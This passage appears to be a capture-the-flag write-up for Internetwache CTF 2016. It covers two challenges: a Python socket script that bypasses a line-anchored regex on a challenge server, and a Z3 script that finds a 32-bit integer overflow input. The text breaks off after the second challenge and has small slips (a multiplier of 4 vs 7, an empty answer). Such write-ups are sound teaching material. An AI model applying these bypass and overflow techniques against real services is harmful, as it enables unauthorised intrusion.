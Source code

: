 # Internetwache CTF: Exploit 50, 60 and 70 & Code 50 and 70

Below are solutions to a few of the challenges I completed while competing in [Internetwache CTF 2016](https://ctftime.org/event/290). Overall the CTF was enjoyable, even if on the easier end of the spectrum and we placed 49th after giving up on the two challenges we had left (Although they were more tedious then hard...).

## Exploit 50: Ruby's count
![Intro](https://raw.githubusercontent.com/sam-b/ctf-stuff/master/internetwache%202016/exp50/intro.PNG)

Connecting to the service it demands you enter characters matching the regex '/^[a-f]{10}$/' which it then sums the ASCII values of and prints the flag if the value is greater than 1020. The regex only validates lines so by sending input that starts with 'aaaaaaaaaa' followed by a '\n' and then more values we will get past the regex and when summed the values will be higher then needed.

<pre>
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("188.166.133.53", 12037))
print s.recv(1024)
s.send("aaaaaaaaaa\nAAAAAAAAAA")
print s.recv(1024)
</pre>

## Exploit 60: Equation Solver
![intro](https://raw.githubusercontent.com/sam-b/ctf-stuff/master/internetwache%202016/exp60/intro.PNG)
When connecting to the service we are presented with an 'impossible' to solve equation:
<pre>
X > 1337
X * 7 + 4 = 1337
</pre>
The first thing that popped my head when looking into this is that it's likely a case of integer overflow, for example the greatest value an unsigned 16 bit integer can hold is 65535, if you add one to this value then you will end up with 0. We need to find a value which when stored in a 32 bit type (the variable size was a guess but it was either going to be 16, 32 or 64) and multiplied by 4 will wrap around to 1333. Using Z3 we can do this quickly, I've previously written a brief introduction to Z3 [here](). Encoding the equation using the Python bindings for Z3, I end up with the following code.

<pre>
from z3 import *
import sys

if __name__ == "__main__":
	#X > 1337
	#X * 7 + 4 = 1337

	x = BitVec('x', 32)
	s = Solver()
	s.add(x > 1337)
	s.add(x * 7 + 4 == 1337)
	if s.check():
		print int(str(s.model()[x]))
	else:
		print "unsat :("
</pre>
Running the code gives us an answer of: ''.
